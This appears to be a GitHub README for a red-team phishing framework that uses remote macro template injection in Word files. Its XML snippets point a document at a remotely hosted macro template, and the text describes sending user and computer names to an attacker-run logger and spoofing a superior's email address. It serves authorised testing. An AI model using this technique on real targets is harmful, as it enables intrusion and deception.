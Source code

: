 # TPP (The Phishing Project)

The purpose of this repository is to distribute an easy to use framework for doing in-depth, customizable, company wide phishing that use real attacker tactics.

Within you will find example documents and disarmed Word docs that all succeeded in logging the data of a compromised machine via phishing. 

![database results](/img/db.png "Database results")

The tech details are deeper in, but none of this is real 'malware'. At worst, it is the crappiest spyware ever developed because it logs a Windows OS's User and Computer Name.

The importance of writing a [quality report](/Report.pdf) (you can write a better intro than that) with the data after the fact cannot be understated. Learning where you are weak is fun and valuable, but explaining it in a way that management can understand is how change occurs. There is a redacted report from a real engagement that should be read, each portion is worth including. Keeping it short keeps it readable.

## Tech Details

Most networks block .docm and .doc files because they can contain macros which is considered unsafe. Unfortunately, docx files are also unsafe because they have the ability to execute macros. This framework makes use of macro enabled template injection to bypass this. There is plenty of reading available on this topic [here](http://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html), and [here](https://0xevilc0de.com/maldoc-uses-template-injection-for-macro-execution/). The short of it is we can "embed" a macro which is downloaded upon the docx being opened. The full macro that was used is available [here](/src/macro.txt). This has the advantage of being able to arm and disarm the document by modifying the privacy of wherever the template is hosted. I went ahead and hosted my templates on Github.

How the attack works is when a user clicks "Enable Contents", their username and computer name are retrieved, then sent via $\_GET to a domain that is waiting with a basic PHP script to handle the request, which then logs it in a database. There is SQL that will generate the table and fields for you, and both necessary PHP scripts are in src as well.

## Installation

This process will take about an hour if you have all prerequisite knowledge, 3 if you're learning as you go.

Step 0: Ensure that you have a (paid) domain and hosting, both will be useful. You should be comfortable with basic web administration, creating a database, and uploading files to a server. You will also need an up to date Microsoft Word.

First you should set up the database and PHP scripts and ensure they can interact with a simple http://my_domain.com/process_macro.php?deadbeef[]=hi&deadbeef[]=greetings. If hi and greetings are recorded in the database, you are ready to begin playing with Word docs. If not, make sure everything is pointing to the right place. You will need to modify helper2.php as it contains the database login information. You should not need to modify process_macro.php but it should pose no trouble as long as you are careful.

The documents themselves need to be crafted carefully. The macro is flexible if you are comfortable modifying VBA, but otherwise should be left as is (with the exception of the link to your domain). A malicious document can be created by making a new Word document, and instead of selecting Blank page, choose a template. I like the Resume templates because they are easy to modify and have a nice background. What this is doing behind the scenes is creating a file called settings.xml.rels which stores a link to the template. This will later be changed to a URL hosting our payload. Make whatever social engineering changes you are going to make to the document while keeping the template, there are examples [here](/Emails%20&%20Documents/). Once you're done modifying what our victims will see (only use information that a real attacker would have), its time to inject. 

Create an empty Word document and save it as a .dotm. Go into the Developer tab and open up the macro editor. You can copy and paste macro.txt in there (modifying the link). Be sure that you save the macro in This Document (not always the default). You need to find a good place to host this document online. If using Github, give the full link to the file directly.

There is a script that automates this process [here](https://github.com/JohnWoodman/remoteinjector), but the process is trivial to do manually (see links above talking about macro enabled template injection). The link you use when injecting matters. If using Github, you'll need to add ?raw=true to the end of the link so that it pulls the contents correctly. Example below,
```
<?xml version="1.0" ?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" Target="https://github.com/dillon9/Template/blob/main/template.dotm" TargetMode="External" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"/>
</Relationships>
```
Becomes,
```
<?xml version="1.0" ?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" Target="https://github.com/dillon9/Template/blob/main/template.dotm?raw=true" TargetMode="External" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"/>
</Relationships>
```
You should now be able to test that your docx file will open, download the macro, and send data back to your database. If you have issues at this point, review that you have set up everything correctly. If issues persist, raise an issue and I will look at it when I have some free time.

## Spoofing

There are several choices out there, but [SET](https://github.com/trustedsec/social-engineer-toolkit/) and [Zaqar](https://github.com/TobinShields/Zaqar_EmailSpoofer) appear to be the easiest, and most functional. There are pros and cons to both, do your own research, but spoofing will greatly increase the success of your campaign. Every single document that met success used the spoofed email address of a superior.

Zaqar is easier to set up and will run on your server so no additional installation/setup required. SET runs best on Kali and is picky if you make a typo. SET however does support multiple emails at once which can save a massive amount of time.

If choosing SET, you will need to set up a mail server. smtp2go is a fine choice, it is free and allows 1,000 emails per day.

## Legal

The legality of spoofing emails and sending malicious documents is dubious at best. If there is any doubt about whether or not you are allowed to be doing this, don't. The CFAA is no joke. This framework is only available for use in a legally sanctioned social engineering engagement, pentest, or for research.





